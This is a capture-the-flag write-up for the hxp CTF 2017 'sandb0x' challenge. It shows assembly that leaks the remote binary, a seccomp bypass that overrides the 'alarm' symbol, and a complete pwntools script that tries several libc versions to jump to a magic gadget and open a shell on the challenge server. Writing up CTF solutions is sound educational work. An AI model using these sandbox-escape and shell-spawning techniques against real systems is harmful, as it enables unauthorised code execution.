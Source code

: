 # Writeup for sandb0x (pwn, 200 + 75 pts, 4 solves), hxp CTF 2017

Description:

> see http://www.gifbin.com/bin/33yusw44837sw.gif
>
> Download: [b2ba438dde0be512af486c0d2f1139a9eda8a607632dc4746dc60f75b2c36121.tar.xz](https://2017.ctf.link/assets/files/b2ba438dde0be512af486c0d2f1139a9eda8a607632dc4746dc60f75b2c36121.tar.xz)
>
> Connection: nc 35.198.105.104 26739

## TL;DR

- we can upload assembly code wich gets executed

- seccomp filters prevent us from using most syscalls

- overwrite libc symbols in the assembly to bypass seccomp

- leak the remote binary and libc

- let the assembly code jump to a magic gadget to get a shell

## The Task

We can input up to 80 characters of x86-64 assembler in AT&T syntax, and the target will compile it together with a `main.c` and execute it on the remote server. We don't know the contents of `main.c`, but it will likely set up a seccomp filter before calling our code, because the binary is linked against libseccomp (`-lseccomp`).

## The Bug

The obvious vulnerability is that we can execute code on the target machine, although only in small chunks of 80 characters. Another vulnerability is that we are able to export symbols from our assembly code to the linker (`.global` is allowed), which allows us to overwrite functions imported from libraries.

## The Exploit

We have no idea of what syscalls the seccomp filter allows or what the contents of `main.c` are, so the first thing to do is leak the remote binary. I used the following code:

```assembly_x86
mov $1,%rax;
mov $1,%rdi;
mov (%rsp),%rsi;
sub $0,%rsi;
mov $9999,%rdx;
syscall
```

Increase the amount subtracted from `rsi` until you hit the ELF header, then increase it to leak the first segment of the binary, which contains all of the code.

Using the same technique, we can leak the second segment of the binary containing the data, bss and GOT. With the GOT, the string table and the references to the GOT from the code, we can resolve the addresses of `_IO_2_1_stdin_`, `_IO_2_1_stdout_` and `_IO_2_1_stderr_` and use [libc.blukat.me](https://libc.blukat.me/) to find 6 versions of libc with matching offsets.

After analyzing the leaked code we see that the seccomp filters only allow `write`, `exit`, `clock_gettime` and `exit_group` syscalls, but we can bypass seccomp easily by exporting our own `alarm` function, which the binary calls instead of libc's `alarm` before setting up seccomp.

At this point, we know the remote libc (we have 6 possibilities, but we will just try them all), and we can execute a small amount of code without syscall restrictions. To finally pop a shell, we hook the `alarm` function, calculate the address of libc's magic gadget, and jump there:

(`r11` contains the address of libc's `setbuf` when `alarm` is called, and `$XX` should be replaced with the offset of the magic gadget from `setbuf`)

```assembly_x86
.global alarm;
alarm:
add $XX,%r11;
jmp %r11
```

Putting everything together, we end up with the following exploit:

```python
from pwn import *

context.arch = 'amd64'

def exe(code):
    code = ''.join(c for c in code if c in '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ%.,;:()$_- ')

    r = remote('35.198.105.104', 26739)
    r.sendlineafter('x86-64> ', code)
    out = r.recvrepeat(1)

    if r.connected('recv'):
        info("-- GOT SHELL --")
        r.interactive()
    r.close()

    return out

if __name__ == '__main__':

    libcs = [('remote_libc/libc6_2.24-3ubuntu1_amd64.so', 0x455aa),
             ('remote_libc/libc6_2.24-3ubuntu2_amd64.so', 0x455aa),
             ('remote_libc/libc6_2.24-9ubuntu2_amd64.so', 0x4557a),
             ('remote_libc/libc6-amd64_2.24-3ubuntu1_i386.so', 0x3f3ea),
             ('remote_libc/libc6-amd64_2.24-3ubuntu2_i386.so', 0x3f3ea),
             ('remote_libc/libc6-amd64_2.24-9ubuntu2_i386.so', 0x3f3da)]

    for path, magic in libcs:
        e = ELF(path)
        offset = magic - e.symbols['setbuf']
        info("libc: %s, offset: 0x%x" % (path, offset))

        info("%s\n%s" % exe('''
.global alarm;
alarm:
add ${},%r11;
jmp %r11'''.format(offset)))
```

The very last of our libc candidates succeeds and we get a shell.

Flag: `hxp{w3nn_1ch_6r055_b1n_5p13l3_1ch_n1ch7_m3hr_1m_54ndk4573n}`
